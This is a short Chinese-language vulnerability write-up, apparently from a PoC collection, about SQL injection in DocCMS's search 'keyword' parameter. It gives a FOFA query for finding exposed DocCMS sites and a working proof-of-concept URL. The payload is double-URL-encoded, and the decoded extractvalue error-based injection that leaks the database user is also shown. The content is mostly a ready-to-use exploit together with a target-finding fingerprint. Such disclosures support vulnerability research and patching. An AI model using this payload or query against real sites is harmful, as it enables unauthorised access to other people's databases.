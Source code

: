 # DocCMS-keyword-SQL注入漏洞

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

> [!NOTE]
>
> DocCMS

## FOFA

> [!NOTE]
>
> app="Doccms" 

## 漏洞复现

CMS官网

![image-20210702110657409](DocCMS-keyword-SQL注入漏洞.assets/1627363023616492.jpg)

验证POC

```
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

![image-20210702110838286](DocCMS-keyword-SQL注入漏洞.assets/1627363023849175.jpg)

其中payload为下列语句的二次Url编码

```
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```


